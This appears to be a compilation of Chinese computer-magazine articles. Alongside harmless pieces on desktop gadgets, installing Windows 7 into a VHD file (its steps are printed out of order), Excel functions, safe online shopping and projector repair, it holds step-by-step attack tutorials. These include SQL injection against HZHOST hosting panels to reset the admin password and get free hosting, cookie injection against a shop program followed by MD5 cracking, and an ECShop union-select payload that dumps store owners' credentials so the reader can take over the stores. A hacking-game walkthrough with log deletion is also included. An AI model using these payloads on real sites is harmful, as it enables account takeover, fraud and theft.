你可能听说过鱼鱼桌面秀。在XP系统下，将鱼鱼桌面秀安装并运行后，一场Vista侧边栏的模仿秀便悄然浮现在你眼前。在XP操作系统窗口右侧，非常Vista化的侧边栏集成不少小工具。

### 让小工具随处可见

程序默认自带的小工具主要可实现语音时钟显示、日历、网址导航、我的空间等模块。倘若感觉这些工具集成在侧边栏中过于拥挤，那么也可选择相应的功能模块，然后将常用的工具拖至桌面的任何角落，从而能够方便自己的使用（见图1）。



### 对小工具作“手术”

如同Vista侧边栏上的工具一样，在某个功能模块上单击鼠标右键，我们即可在开启的功能菜单中，利用“风格”、“透明度”等选项，去变换面板的显示，以求展现不同的个性风采。

而假如选择快捷菜单上的“选项”命令，则可以立即调用所选工具模块的设置功能，便于让用户进行个性化设置（见图2）。



### 为侧边栏添加新成员

当感觉侧边栏的工具不够用时，不妨下载安装更多的小工具来扩展自己的应用。

单击侧边栏顶端的“+”按钮便能开启程序自带的“小工具库”对话框。在该对话框中，集成了丰富的工具模块。

若打算让某个工具“植入”到侧边栏，可以在小工具上单击鼠标右键，选择快捷菜单上的“启动小工具”选项便可，也可直接将小工具拖至侧边栏中而后使用。

> 小提示：单击对话框底部的“显示详细信息”选项，将会弹出有关所选工具详细的功能介绍。鱼鱼桌面秀不仅可以向用户提供大量插件以拓宽程序的应用范围，而且总体的资源占用率也非常低，非常不错。

## 装Windows 7，一文件搞定

文/灰太狼

Windows 7这个新系统着实不错，但毕竟还处于测试阶段，一些软件和驱动还不能完美兼容，那么安装多系统就是个不错的选择了。但安装多系统总是有点门槛的，诸如分区、设置引导等操作就吓跑了不少初学者。有些朋友可能知道Ubuntu系统安装到一个文件中，那么Windows 7能否实现类似功能呢？它还真的提供了一个叫做Native Boot的功能，允许直接引导并运行存储在VHD文件中的操作系统。换言之，Windows 7也可以安装在一个文件中了，这样一来新手入手的难度大大降低了。

### 第一部分：创建VHD文件

Native Boot相对以往的Windows来说是一种颠覆性的新功能，模拟大家最常用到的软件环境，把Windows 7安装在已经装有XP的电脑上，而且不需要重新分区。

```
List disk（列出磁盘）
Select disk 0（选择编号为0的磁盘，如果你只有一个硬盘可以照抄）
List Partition（列举磁盘上面的分区）
```

首先下载Windows 7的ISO文件（下载地址：http://bbs.pcbeta.com/forum-189-1.html），使用UltraISO或者Nero之类的软件把这个镜像刻录到光盘上，当然也可以制作成U盘版。不过一般来说还是建议使用光盘安装。

输入完毕命令之后，将列举出硬盘上面的所有分区，将选择一个空间比较富裕的分区存放VHD文件。建议保留超过20GB的空间给Windows 7，这里将VHD文件存放在第2个分区。由于这台电脑空间不足所以在下面的操作步骤中只分配了14GB，但当大家实际使用的时候，还是建议分配更大的空间。

```
select vdisk file=d:win7.vhd
attach vdisk
```

最后输入exit退出DiskPart。

### 第四步：完成了上面的虚拟硬盘创建后，开始安装Windows 7。这一步几乎和正常安装Windows 7没什么两样，基本都是一路“下一步”。选择“下一步”，同意微软的协议之后，在如图所示的界面选择Custom也就是自定义。而不是选择Upgrade（升级）（见图2）。

接下来是关键，从光盘引导电脑，创建VHD文件并把Windows 7安装在这个文件中。这一步的关键点是使用DiskPart命令，虽是命令行操作，下面会提供完整的参考命令，所以操作起来相信也是没有难度的。



第三步：创建虚拟磁盘，即创建VHD文件。VHD文件也是微软的虚拟机软件Virtual PC的虚拟磁盘使用的文件格式。这一步骤的操作依然在DiskPart中进行，延续上面的操作即可。

在选择安装分区的界面中选择最后一项Disk Unallocated Space，点击Next；之后进行的安装和正常的Windows 7安装一样，和Vista的安装也非常相似。

> 小提示：在选择分区的界面如果点击Drive Option（Advanced）则可以对磁盘进行格式化、删除分区等操作。

### 第一步：把刻录好的光盘放到光驱中，设置从光盘启动。当启动到如图1所示界面的时候，按下Shift+F10组合键，调出命令提示符窗口（见图1）。



```
create vdisk file=d:win7.vhd maximum=14000
maximum=14000表示最大容量为14000MB。等看到DiskPart successfully created the virtual disk file的时候，虚拟磁盘就创建完毕了。创建所需的时间依电脑实际性能而定。
```



输入Diskpart并回车，进入Diskpart。Diskpart是一个命令行下的磁盘管理工具，启用“磁盘管理”管理单元所支持的操作的超集。详细的介绍可以参考微软的官方支持主页http://support.microsoft.com/kb/300415。

> 小提示：在没有充分理解Diskpart命令的情况下，请不要随意输入其他本文没有提到的命令，否则可能会对磁盘数据造成影响。虽然本文所涉及的操作基本安全，但是为了绝对安全起见还是建议大家在操作前备份重要数据。

### 第二步：依次输入以下命令，每次输入一行，输入完毕之后按下回车执行，命令的含义请参考括号后面的内容；输入的时候注意其中的空格，但是别把括号也输入哦。

挂载并激活虚拟磁盘。依次输入以下两条命令：

安装完毕后，自动创建了双系统引导菜单，可以选择进入老的Windows还是Windows 7。进入系统之后，我们进入磁盘管理器可以看到这个虚拟磁盘管理起来和一个真实的磁盘没有什么差别。而据微软的PPT的数据来看，这个虚拟磁盘的性能和真实磁盘的性能差距也不算大。

到这一步为止，Windows 7就乖乖地安装在磁盘的VHD文件中了。接下来将讲解一些扩展的使用知识。如果以后安装更新版本的Windows 7的时候还想使用这个VHD文件，只需要参照之前的操作，使用DiskPart命令中的select vdisk、attach vdisk两条命令分别挂载、激活虚拟磁盘即可。

### 第二部分：设置启动项

大家现在电脑中安装了Windows 7，每次都得用键盘选择系统再进入也不是个办法，这里笔者教大家一个办法——调整系统启动项。

第一步：在开始菜单的Computer那里点击右键选择Properties（属性）→点击左上方的Advanced system settings（高级系统设置）。

在System Properties窗口中选择Advanced（高级）选项卡→选择下方Startup and Recovery（启动和恢复）中的Setting（设置）。



第二步：在Default Operating System中，在下拉菜单选择Earlier Version of Windows（见图4），再点击OK即可把默认启动的系统设置为XP。同样的还可以设置默认等待的时间，只需要修改Time to display list of operating systems: 后面的数值即可。

### 第三部分：搞定卸载

现在Windows 7毕竟是一个测试版，用户大多数是为了尝鲜体验而安装。如果用户对Windows 7的表现不满意，或者想暂时卸载掉等正式版再安装，该如何删除这个系统呢？安装Windows 7到一个虚拟磁盘中删除起来自然也是很方便的。

第一步：删除虚拟磁盘文件。进入XP到相应的磁盘分区中找到之前创建的VHD文件，干净利索地删除它。删除Windows 7的磁盘管理，恢复XP的引导。

第二步：进入XP系统，在XP的文件夹选项的“查看”中去掉“隐藏受保护的操作系统文件”前面的钩，选择“显示所有文件和文件夹”。接着删除C盘根目录下面的Bootmgr文件和Boot文件夹。



重启电脑，使用XP安装盘启动，进入安装界面；在“欢迎使用安装程序”的界面按下R，进入“恢复控制台”（见图5）。

在控制台中按照屏幕提示选择一个已安装的XP，输入数字按下回车即可；然后输入Administrator的密码。输入Fixboot并回车，然后按Y再回车一次就好了。重新启动，就可以直接进入熟悉的XP了。

## Excel的超级任务

文/孙洁

作为Office家族的一款表格制作软件，Excel的功能十分强大，常常可以完成一些看似复杂的任务，当然，这些任务的完成很多依赖于函数的灵活使用，本文将以VLOOKUP()和COUNTIF()为例，向读者展示利用Excel完成的超级任务。

任务一：从另一个工作表获取数据（两表的排列顺序不同）。

方法：使用VLOOKUP()实现“草船借箭”。

假设新工作表为“Sheet1”，数据列为：“姓名”、“性别”、“学号”，需要借鉴的原始工作表为“Sheet2”，数据列为：“姓名”、“性别”、“卡号”，而且两工作表的排列顺序不同，可以用VLOOKUP函数把原始表（Sheet2）中“卡号”列的数据直接按顺序加入到新表（Sheet1）中。具体操作为：单击新表的D1单元格，输入公式：=VLOOKUP(A1,Sheet2!A:C,3,FALSE)，回车后D1单元格内出现“卡号”，拖动D1单元格右下角的填充柄直至D8单元格，看见那些可爱的卡号是不是很惊喜呀？使用VLOOKUP获取数据时，会在新表和原始表之间建立一种关联，以后一修改原始表数据，新表的相应数据也会随之改变。

> 小提示
>
> VLOOKUP(A1,Sheet2!A:C,3,FALSE)的功能是在Sheet2工作表的A列（姓名）查找等于本工作表A1的值的单元格，找到后返回Sheet2工作表同一行中C列的值，未找到则返回一个错误信息“#N/A”。其中，第一个参数是要查找的值，第二个参数是查找和引用的范围，第三个参数是相对于查找到的值要引用哪一列的值（查找列为1，往右依次为2、3、4、5等），第四个参数是查找时是否要精确匹配（可用1和0或者TRUE和FALSE，一般使用FALSE）。

任务二：查找工作表中的重复数据并作标记。

方法：使用COUNTIF()实现“火眼金睛”。

不知道你有没有注意，刚刚完成的新表Sheet1里存在两行重复记录，如何把它们标示出来？可以使用“条件格式”。具体操作为：选中所有单元格，主菜单中依次单击“格式→条件格式”，在弹出的条件个格式对话框中将“条件1”下的“单元格数值”改为“公式”，并在其后面的空白框内输入：=COUNTIF($A:$A,$A1)>1，然后，单击“格式”按钮，在弹出的单元格格式对话框中将字体颜色改为红色，单击“确定”，看到结果了吗？

> 小提示
>
> COUNTIF是在寻找符合条件的数量。第一个参数和第二个参数表示要查找的范围，第三个参数表示要查找的具体值，返回值是要查找的具体值出现的次数，大于1说明有重复数据。

## 随处都是免费空间，就用SQL注入！

很多拥有独立网站的站长、个人博客服务器的博主、论坛的坛主，都对收费网页空间爱恨交加：便宜的服务不行，要么经常无法访问，要么速度巨慢；贵的自然服务好，但价格不菲，对学生一族而言显得奢侈。说白了：有没有办法让收费的空间免费使用呢？今天就来教大家一招：通过SQL注入这种黑客手段，免费拿到网络上的收费空间！

### 什么是SQL注入?

随着B/S模式应用开发的发展，使用这种模式编写应用程序的程序员也越来越多。但是由于这个行业的入门门槛不高，程序员的水平及经验也参差不齐，相当大一部分程序员在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患。用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入。

不易察觉性：SQL注入是从正常的网页端口访问，由于表面上跟一般的Web页面访问没什么区别，所以目前市面的防火墙都不会对SQL注入发出警报，如果管理员没查看IIS日志的习惯，可能被入侵很长时间都不会发觉。

目前国内大多数空间商使用的都是同一套虚拟主机管理系统：HZHOST，最近这套系统曝出严重SQL注入漏洞：黑客可以直接修改HZHOST系统管理员的密码，甚至可拿到一个网页插件，直接入侵网站所在服务器。“知己知彼，百战不殆”，来看看黑客们是如何做到的。

首先在百度中以“title:域名主机实时管理系统”为关键字进行搜索，可以找到很多符合条件的网页，在搜索结果中随意打开一个网站，比如http://www.cxhost.cn/，会看到一个虚拟主机登录界面，如图1所示，在其中的“域名”文本框中输入“123' and user>0--”，然后在密码处输入小于四位的任意数字，例如123，点击“登录”按钮。如果返回的页面提示“对不起，域名密码长度应该大于4位！”，则说明该网站存在SQL注入漏洞，那就可以进一步入侵！如果出现“非法请求”提示，说明网站的漏洞已经被补上了，只能换个网站进行尝试了。



### 小提示

在搜索中我们使用了title参数，它的作用是搜索指定网站标题的网站，“title:域名主机实时管理系统”的意思就是让搜索引擎搜索网站标题为“域名主机实时管理系统”的网站，所以搜索得到的结果比普通搜索更为精确。此外还有inurl、site、link等参数。

OK，知道该网站存在漏洞后，在本地新建一个文本文档，输入以下内容：

```
<form action=http://www.xxx.com/domain/login.asp method=post>
输入需要提交的语句：<input name="domainname" type="text" size="100">
<input name="domainpass" type="hidden" value="123456" size="50"><br>
<input type="submit" value="提交">
</form>
```

其中第一句代码中的www.xxx.com为你要入侵的网站域名，将该文件保存为hack.htm，然后用IE打开（这个文件的作用是本地提交数据，以破解登录窗口的字符长度输入限制）。接着在“输入需要提交的语句”文本框中输入：“123' UPDATE [memlst] SET u_pss='e10adc3949ba59abbe56e057f20f883e' WHERE u_nme='admin'--”，点击提交按钮（见图2），如果返回的页面提示“对不起，非法登录，请返回！(106)”，则说明入侵成功了，已经将管理员的密码修改为了123456！



最后，来到网站的首页，在用户登录处填入管理员的账户名admin，密码123456，点“登录”即可进入管理员的管理界面，如图3所示，可以看到花不完的账户余额，现在你想要多少个网页空间都没有问题了！

### 您的账户

| 项目 | 可用金额 | 实际余额 | 入款总额 | 浮动金额 | 冻结金额 | 返款总额 | 借款金额 | 消费总额 |
|---|---|---|---|---|---|---|---|---|
| | 8854778.01 | -34101.99 | .01 | 0 | 0 | 0 | 0 | 34102 |
| 虚拟主机 | 已开通记录 11 | 已开通试用 0 | 未开通订单 0 | | | | | |
| 英文域名 | 已开通 18 | 未开通 10 | | | | | | |
| 中文域名 | 已开通 8 | 未开通 0 | | | | | | |
| 企业邮局 | 已开通记录 1 | 已开通试用 0 | 未开通订单 0 | | | | | |

严重声明：所谓“知己知彼，百战不殆”，本文的目的在于测试漏洞，让大家熟悉黑客的进攻手段，以便加以防范，千万不要对网站数据进行改动，否则网警叔叔会带着手铐敲你家的门哦。

## 红客必学：看黑客如何注入Cookie！

通过《随处都是免费空间，就用SQL注入！》一文，阿呆对于SQL注入了解一些了。阿呆是个有志向的好青年，立志成为一名红客来反击黑客。在研究用SQL注入攻击渗透网站时，他发现网站的页面并不存在注入点。他并不放弃，因为不仅SQL注入可以通过网站页面进行攻击，网站的Cookie也同样可以注入！

### 什么是Cookie注入？

在ASP中，请求对象获取客户端提交数据常用的是get和post两种方式，请求对象可以不通过集合来获得数据，可直接使用“request("name")”，但它效率低下、容易出错。Cookie是保存在客户端的一个文本文件，可修改。黑客利用Request.cookie方式来提交变量的值，从而进行注入攻击。

**原理：** 程序没有对读取的用户Cookies值进行过滤或者是判断，直接把Cookies中的一些数值提交到数据库执行。由于Cookies是存在于客户端的，所以可以任意修改。因此可以将注入语句写入到Cookie值中，然后让网站程序执行，实现注入目的。

### 了解Cookies注入语句

Cookies的注入语句：javascript:alert(document.cookie="id="+escape("这就是asp? id=xx后面xx代表的数值) and (这里是注入攻击代码"))：

```
javascript:alert(document.cookie="id="+escape("这就是asp? id=xx后面xx代表的数值) and (这里是注入攻击代码"))：
```

- "alert()"
显示信息对话框的alert()方法,它生成的是一个独立的小窗口,称作对话框,用来显示一条信息和一个按钮。
- "document.cookie"
在处理Cookie时，javascript将它保存为document对象的一个属性，其属性名称是Cookie,利用这个属性，可创建和读取Cookie数据，在程序中可以使用:"alert(document.cookie)"调用当前页面的Ccookie数据项值。
- "escape()函数"
它将字符串中所有的非字母字符转换为用字母数字表示的等价字符串，具有编码字符串的功能。



其中“Buy2Buy=username”参数后面跟着的是你刚才注册的用户名，本例为hacker。修改完毕后点击一下“修改”按钮，然后在页面中点右键选择“刷新”，现在发现：用户信息处竟然爆出了网站管理员的账户和密码！

### 小提示

上文的代码看上去乱糟糟，实则是经过Unicode转换，例如开头的%27%20and%201%3D2%20，转换后为“' and 1=2”。如果想看代码原文可以到http://tool.admin5.com/tools/tools/cryptogram.htm中进行还原。

### 实例：成功注入某站

了解了什么是Cookie注入后，来实际操作一下。以一款网络上比较流行的商城程序为例。在百度中以“inurl:b2b_cplist.asp”为关键字进行搜索，可以找到很多符合条件的网站。

在测试时需要借助一款工具——啊D注入工具（http://www.d99net.net/article.asp?id=86，运行前关闭杀毒软件）。下载完毕后运行，进入到“扫描注入点”功能处，将目标网站的地址复制进来并打开。

- 第一步：在目标网站上注册一个用户，注册完毕后进行登录，点击工具上方的蓝色感叹号按钮，会出现网站的Cookie值。我们接下来要做的就是修改这部分Cookie值为注入语句（见图1）。

将这段代码替换为Cookie值：Buy2Buy=username=hacker%27%20and……8%20from%20admin%20where%20%27%27%3D%27

```
Buy2Buy=username=hacker%27%20and……8%20from%20admin%20where%20%27%27%3D%27
```

本例中SQL注入得到的管理员用户名为shaoqi，密码为1495b5fdf83aa9XX，明显密码经过MD5加密，不过这难不倒我们。打开MD5破解网站http://www.cmd5.com/，在文本框中输入加密过的数值，点击“MD5加密或解密”按钮，马上密码原文就破解出来了。如图2所示，居然是手机号码，属于典型的弱口令。



最后，在网站的网址后面添加“admin/main.asp”，回车后打开网站后台的管理页面，用网站管理员的账户名和密码进行登录即可。

## 一句话，让无良卖家网店遭殃

### 如何确定网店系统？

在网店的最下方，如图1所示，可以看到他的建站系统是ECShop v2.5.1。在百度中以“Powered by ECShop v2.5.0”为关键字进行搜索，也可以找到N个符合条件的网店。



### 得到密码信息

找到入侵目标后，就可以通过一句利用ECShop程序漏洞的代码来得到网店店主的账户和密码信息了。在网店的域名后添加

```
user.php?act=order_query&order_sn=1 union select 1,2,3,4,5,6,concat(user_name,0x7c,password,0x7c,email),8 from ecs_admin_user
```

这样一句代码，然后按下回车键。如果漏洞存在，那么在返回的页面中，我们可以看到店主的账户名、密码以及电子邮件地址。如果出现其他的错误信息，那么就只能换一个网店继续测试了。

### 破解经过MD5加密的密码

得到密码后也不要高兴得太早，密码是经过MD5加密的，长度为32位，只有将其破解，这个密码才有意义，否则前面的工作都是白搭。现在网络上有很多专门破解MD5加密密码的网站，例如：www.cmd5.com、www.md5.org.cn等，这些网站收录了大约几十亿条MD5加密记录，如果你的加密信息存在于它的数据库中，那么得到密码原文只需要1秒钟。在网页正中的文本框中输入加密的MD5信息，点击一下“给我转”按钮，如图2所示，马上就得到了密码的原文，是admin。从这里我们也看出了不少网店店主安全意识薄弱，连ECShop默认的密码都没有改，如果他能把密码改得复杂些，要破解出密码原文也不是一件轻松的事。



### 登录网站后台

得到了密码原文，就可以登录网店的后台，帮助店主“管理”网店了，在域名后添加admin，例如http://www.shop.comadmin，回车后会打开网店的后台登录页面，输入店主的账户密码即可登录（见图3），接下来修改商品价格、发货什么就都是阿呆说了算了。



警告：千万不要利用漏洞做违法的事，稍微教训一下无良店主就可以了。否则警察叔叔会带着脚铐将你抓走！

## 安全网购，四大法宝

网络交易环境在不断的变化，我们也需要不断地学习，骗子的招数越来越多，我们也将不断地揭露，把经验分享给大家，我们的目标是：天下无贼！

- 一、支付要用支付宝
所有淘宝的交易金额都是通过支付宝周转。所以只要你汇款或者交易有资金的流动，系统都会有记录，淘宝都是可以查到的。当交易纠纷出现，甚至说卖家收款不发货，你至少还可以投诉，淘宝会对他进行处罚，如果他账户里还有钱的话，淘宝会根据相应的工作流程返款给你，但是你如果是直接汇款，那就比较麻烦点了。

- 二、先用旺旺交流
你是通过淘宝平台进行交易的。旺旺是淘宝的代言人，所有交易细节必须都是通过旺旺谈，这样在发生交易纠纷的时候，你所提交的证据，才会被淘宝所认可！所以旺旺是一切交易的基础，所有交易你都必须通过旺旺，这样才是正确理智的。没有使用旺旺的朋友直接可以跳过下面的内容。你不遇到骗子才怪！今天没有遇到，明天一定遇到！

- 三、谨慎对待评价
评价是一把双刃剑。好买家，好卖家，对其评价是非常重视的，评价不光是对其劳动价值的肯定，严重的说，更是可以影响到一个店铺的生存，所以想长期在淘宝发展的朋友，对其评价是很重要的。作为买家，收到卖家发来的货，检查无误后可以点确认，作为理智聪明的买家是不会急着给评价的，特别是对于电子数码类产品更是如此，商品用上半个月，所有的功能配件都在使用过程中表现正常后，再根据客观情况给予相应的评价，这样可以在最大的时间限度里保护你的权益。

- 四、退款退货
由于网络交易的特性，很多商品可能到了买家手中，由于某种原因而需要退款退货。这也是交易的一个常见环节。作为一个好卖家好买家，是必须对其行为负责的，由于你自身原因造成的退款退货，你必须承担相应的责任义务，比如承担来回邮费等。一个好买家会在购买之前进行详细的询问，这样对于商品的特性就比较熟悉了，而不会以实物和心理落差大这样的借口退货。

## 与黑客玩模拟游戏 其乐无穷

阿呆日夜努力，继续向着红客奋发图强，在阅读了很多黑客文章之后，他的好友——黑客阿瓜向他发出挑战：阿瓜号称自己的服务器坚不可摧，阿呆肯定找不到漏洞。阿呆不信这个邪，他首先需要做的是热身，找一个模拟对象练习，之后再对付阿瓜！

### 第一关：连接目标 拿下端口扫描

HackTheGame是一款黑客类模拟游戏，下载地址：http://www.hackp.com/Soft/zh/ms/200902/6022.html。其中共有六关，难度会随着关卡提升。先来过其中的第一关，连接到目标服务器并且成功拿下了黑客的端口扫描工具——PortScannerW32.exe。

第一步：首先双击HackTheGame.exe运行游戏，会出现一个登录对话框，在MissionPack选项中选择OriginalChinese，这样游戏的界面就是中文的了，如图1所示。当然如果你对你的英文很有信心，也可以选择English。在Hacker ID中输入你的大名，按一下回车键进入游戏主界面。



进入主界面后我们会看到一个很酷的界面，很黑很Hack，和命令提示符有一点相似。这时会收到一条语音消息，这是游戏给的第一个任务。点击游戏界面左上角的“收件箱”按钮，会出现关于任务的详细信息。我们看到第一关，我们的目标是：用Telnet连接上186.231.26.205这台电脑，然后用账户名：secret，密码：ilovemywife（随机改变）进行登录，窃取对方电脑上的端口扫描器程序PortScannerW32.exe，最后清除日志打战场。

第二步：游戏已经模拟了命令提示符的窗口，因此所有的命令都在这里输入即可。先来看看目标主机在不在线，点击游戏界面上方的Ping按钮，在“IP地址”中输入“186.231.26.205”，点击Ping it，在下方的窗口中会出现回显，从“Packets: send = 4, recieved = 4, lost = 0”这一条回显中可以得知目标主机当前在线（见图2）。这条回显的意思是发送了4个数据包，回收到了4个数据包，丢失0个数据包。在实际入侵的过程中，如果我们能收到1个数据包，就能说明目标主机在线，只不过网络较为不畅，不能回收到全部数据包而已。

此外，从回显的“TTL=128”值中可以得知目标操作系统为Windows2000或XP。



接下来我们用Telnet来连接目标电脑，点击上方的Telnet按钮，在IP地址中填入：186.231.26.205，在“端口”中填入：3032。点击“连接”按钮即可连上目标电脑，这时对方电脑要求我们输入登录账户名和密码，我们先输入secret，回车后再输入ilovemywife即可。

### 小提示

在“命令提示符”中使用Telnet进行连接的命令为“telnet IP地址 端口号”，例如“telnet 186.231.26.205 3032”。

第二步：现在我们已经有了目标电脑的控制权，来寻找目标文件PortScannerW32.exe吧，输入dir命令查看当前目录的所有文件，发现一个HackTools文件夹，记得在任务提示的时候说过PortScannerW32.exe就在这个文件夹中。OK，输入命令：cd HackTools进入到HackTools文件夹，点击界面上方的Get File按钮，输入文件名PortScannerW32.exe并点下载，这样PortScannerW32.exe就被我们拿到手了。

### 小提示

实际入侵过程中，如果通过telnet连接上目标电脑，可以通过ftp命令下载所需文件。

最后要打扫战场，删除日志文件。输入命令：cd..返回到上一层，再输入：cd TelnetLogs命令进入到日志存放文件夹，输入命令：del 192.168.010.001删除日志文件即可。一切搞定，点击“断开连接”按钮，第一关就通过啦。

### 第二关：拿到DestroyFileW32.exe

在第一关中，拿到了端口扫描工具PortScannerW32.exe，顾名思义，这个工具就是专门用来扫描目标电脑所开放的端口的。因此，第二关中的主角就是这个工具。第二关的目标同样是在目标电脑上拿到一款工具，名叫DestroyFileW32.exe。

过了第一关后，又收到了一封来自神秘人的消息。内容和第一关差不多，同样是连接目标电脑并且拿到一个特定的文件。但和第一关不同的是，消息中并未提及目标电脑所开放的连接端口，需要通过PortScannerW32.exe扫描目标主机所打开的端口。

第一步：首先来安装PortScannerW32.exe。在游戏的命令提示符窗口中输入dir命令并回车，我们会发现自己c盘目录中有一个名为Downloads的文件夹（虚拟的文件夹，是游戏的一部分），PortScannerW32.exe就在这个文件夹中。输入cd Downloads命令进入到Downloads文件夹，接着再输入portscannerw32命令即可将PortScannerW32.exe安装到游戏中，安装好的扫描器会在游戏界面的上方显示。

```
telnet 186.231.26.205 3032
```

```
cd HackTools
```

```
cd..
```

```
cd TelnetLogs
```

```
del 192.168.010.001
```

```
dir
```

```
cd Downloads
```

```
portscannerw32
```端口扫描器安好后，先来ping一下目标主机，看看它在不在线。点击界面上的Ping按钮，输入目标主机地址：175.184.87.192，点击Ping it即可。

#### 第二步：

OK，回显显示目标主机在线。那么下一步就是探测它所打开的端口。点击游戏界面上的Portscan按钮，在“IP地址”中输入175.184.87.192，端口输入2000-4000，填写完毕后点击“扫描”按钮开始探测。扫描结果出来了，打开的端口为3724（见图④）。



> **小提示**
> 网管为了防止黑客通过telnet服务进行登录，通常会修改telnet服务的默认端口号，可能是1-65535之间任何一个数，我们在真正入侵时需要在superscan等扫描软件中设置好扫描的范围。

#### 第三步：

知道开放的端口号就好办了，点击Telnet按钮，分别输入目标主机的IP地址175.184.87.192以及端口号3724，点击“连接”按钮即可连上目标电脑。
接下来要在目标电脑上下载一款黑客工具DestroyFileW32.exe，下载的步骤其实和第一关并没有多大区别，只不过存放DestroyFileW32.exe文件的文件夹换成了OldFiles，找到后点击界面上的Get File按钮将其下载下来即可。
最后别忘了重要的删除日志步骤，同样是删除Telnet logs目录中的“192.168.010.001”文件。OK，大功告成！

### 第三关：攻击阿瓜，失败而归

阿呆自以为能攻克模拟敌人的基地，就可以对阿瓜为所欲为了，没想到却失败而归。在入侵之前通常会踩点，阿呆对目标电脑通过ping命令搜集相关信息。而阿瓜早已修改了本机的TTL值，这样阿呆就再也ping不进去了。
先来简单了解一下ping命令的用法，点击“开始→运行”输入cmd运行命令提示符，假设目标主机的IP地址为192.168.254.1，输入“ping 192.168.254.1”并回车，如果对方电脑也在线，那么在回显中将可以了解到对方电脑的操作系统类型，只要查看返回的TTL值就可以了。常见操作系统的TTL值如下：

| 操作系统 | TTL值 |
| :--- | :--- |
| Windows 95/98/NT | 32 |
| Windows NT4.0/2000/XP/2003 | 128 |
| Linux | 64 |
| Unix | 255 |

TTL值是128，可判断出对方操作系统是2000、XP或者2003。同样的，黑客也可以从TTL值中判断出我们的操作系统。修改本机的TTL值，例如将128修改为64，从而让黑客误以为操作系统是Linux，这样就可以让一些菜鸟黑客望而却步。
方法：点击“开始→运行”，输入regedit运行“注册表编辑器”，依次展开[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters]，在右侧找到DefaultTTL，将该值修改为十进制的255，重新启动电脑即可（见图⑤）。

```
C:\Documents and Settings\Administrator>ping 122.235.28.178
Pinging 122.235.28.178 with 32 bytes of data:
Reply from 122.235.28.178: bytes=32 time<1ms TTL=255
Reply from 122.235.28.178: bytes=32 time<1ms TTL=255
Reply from 122.235.28.178: bytes=32 time<1ms TTL=255
Reply from 122.235.28.178: bytes=32 time<1ms TTL=255
```



> **小提示**
> 如找不到DefaultTTL键，可手动建立一个。在空白处点击右键，在出现的菜单中选择“新建→DWORD值”，将该键命名为DefaultTTL，然后双击该键，将其键值设置为000000ff，也就是十进制的255，关闭注册表编辑器重启即可。



## 松下PT-U1890投影机待机保护的修理

单位电教室的松下PT-U1890投影机在上课时突然自动关闭光源，只有排风口散热风扇还在工作，控制面板的指示灯在闪烁（红灯），因投影机是吊装在室内房顶上，用遥控器也不能关机、开机。
调阅该机的使用说明书后，发现是温度指示灯在提示报警闪烁。先拔下总电源的插头，谨慎地卸下了吊装的投影机。依据使用说明书的提示，当投影机内部温度异常升高时，光源会被自动关闭，处于待机保护状态。引起机内内部温度异常升高的原因可能是散热孔被遮挡、也可能是使用地点的外界温度过高？通过对现场的了解和观察，投影机的散热孔既没被遮挡，电教室的室温也不高。斟酌再三后，遂又仔细查阅该机的使用说明书，在该机的常规保养建议中，每使用100小时，就应该清洁空气过滤器。可是该机已使用1000多小时，又从未清洗过空气过滤器。将投影机缓慢倒置，在空气过滤网的下方，将空气过滤器小心地拔出，该空气过滤器的海绵已严重堵塞，逐用清水将海绵过滤器洗净，阴干后，插回空气过滤网的下方。通电试机，恢复正常投影，故障排除。需要注意的是在拔出空气过滤器时，一定要轻；清洗海绵过滤器时也不要洗坏海绵。最后就是要妥善保存好使用说明书，因为它是我们正确使用、维护的好帮手。

## 不用虚拟机，照样测病毒！

最勇敢的人往往是勇于尝试的人，比如勇于尝试新鲜病毒的伙计们，以前他们需要在虚拟机或者影子系统之下才敢碰这种危险的东西，现在有了沙盘，一切都好说了。没错，沙盘是一款构造虚拟运行环境的程序，可以用来保护系统安全和测试病毒。

### 沙盘？装沙子的盘子？

用过还原软件（影子系统、雨过天晴等）的朋友应该都知道，当启用保护模式时，对系统所有的操作都会在重启时自动还原，这样就可以避免病毒或者误操作对系统造成破坏。沙盘的原理类似，但它并不还原整个系统，它只对单个的程序起作用，例如用沙盘运行IE浏览器，那么这个IE浏览器所执行的任何操作在关闭沙盘时都会被还原，这样即使病毒通过IE进入到我们的系统，并且把系统改得面目全非，但当我们关闭沙盘时，这一切就又会还原。因此，沙盘相对于还原软件有着体积小（300多KB）、资源占用少、操作灵活方便的特点。怎么样，菜鸟们都等不及了吧，那就看看沙盘是如何玩死病毒的。

第一步：首先当然是安装沙盘了，注意在安装时将安装语言设置为Chinese，这样就可以用中文版的沙盘了。安装完毕后，在桌面上有一个名为“在沙盘中运行网页浏览器”的快捷方式，双击后会打开一个IE浏览器。这个IE和我们平时运行的有区别吗？细心的菜会发现，在IE标题栏的最后多了一个“#”号（见图1），说明当前IE已经处于沙盘的保护中了，下面就让我们来进行一次毁灭性的测试吧。



> **小提示**
> 当程序处于沙盘的保护时，在其标题栏的最后就会有一个“#”号，绝对不要在没有看到“#”号的情况下测试恶意程序。

第二步：打开一个恶意网站，该网站在其提供下载的软件中捆绑了将近10个病毒和木马，把软件下载下来运行，当然这一切都是在IE处于沙盘保护的时候进行的。运行这个恶意软件后，可以看到在沙盘的主界面中多出了数个进程，例如conime.exe、cmd.exe等，这些都是病毒经常伪造的进程，可见，此时病毒正在大量地把病毒释放到我们的系统中。不用害怕，在沙盘主界面中右击沙盘，在出现的菜单中选择“终止程序”，这样沙盘就被关闭了，刚才病毒在系统中干的好事都已灰飞烟灭。我们可以运行任务管理器看看，是不是干干净净，没有什么可疑的进程呢？

> **小提示**
> 当病毒在沙盘中运行时，有时会进行一些危险操作，例如键盘记录、获取文件等，沙盘对这些行为都能阻止并且给予提醒（见图2）。



